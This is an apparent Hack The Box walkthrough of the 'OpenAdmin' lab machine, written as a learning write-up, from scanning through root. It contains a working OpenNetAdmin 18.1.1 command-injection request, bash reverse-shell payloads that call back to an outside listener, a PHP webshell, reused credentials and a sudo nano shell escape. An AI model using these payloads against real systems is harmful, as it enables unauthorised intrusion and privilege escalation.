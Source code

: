 # 🧠 HTB: OpenAdmin — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `OpenNetAdmin`, `webshell`, `password reuse`, `sudo nano`, `GTFObins`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.171
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.171
```

- Open ports: `22 (SSH)`, `80 (HTTP)`
- Apache 2.4.29, [OpenSSH 7.6](SSH) → Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Gobuster

```bash
gobuster dir -u http://10.10.10.171 \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -x php,txt,html -o scans/gobuster-root-php_txt_html
```

✅ Found:
- `/music`, `/artwork`, `/sierra`, `/ona`

### OpenNetAdmin (ONA)

- Version 18.1.1 (vulnerable)

---

## 🐚 Shell as www-data

### Exploit OpenNetAdmin RCE

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Reverse Shell Payload

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Listener

```bash
nc -lvnp 443
```

✅ Shell as `www-data`

---

## 👤 Priv Esc: www-data → jimmy

### Database Password Reuse

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
# Found password: n1nj4W4rri0R!
```

### Switch User

```bash
su jimmy
```

✅ Shell as `jimmy`

---

## 👥 Priv Esc: jimmy → joanna

### View Internal Site Config

```bash
cat /etc/apache2/sites-enabled/internal.conf
# Port 52846, user joanna
```

### SSH Tunnel

```bash
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

### Path 1: Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/shell.php
curl "http://127.0.0.1:52846/shell.php?cmd=id"
curl "http://127.0.0.1:52846/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

### Path 2: Decrypt Joanna’s SSH Key

```php
# From index.php: password = joanna
# Get key from main.php after login
```

Decrypt the key:

```bash
openssl rsa -in joanna-enc -out id_rsa_joanna
# Pass: bloodninjas
```

Login:

```bash
ssh -i id_rsa_joanna joanna@10.10.10.171
```

✅ Shell as `joanna`  
📄 `cat user.txt`

---

## 🔓 Priv Esc: joanna → root

### Sudo Rights

```bash
sudo -l
# /bin/nano /opt/priv (NOPASSWD)
```

### GTFObins - Nano Shell Escape

```bash
sudo /bin/nano /opt/priv
# Ctrl + R, then Ctrl + X
# Enter: reset; sh 1>&0 2>&0
# Then: bash
```

✅ Root shell  
📄 `cat /root/root.txt`
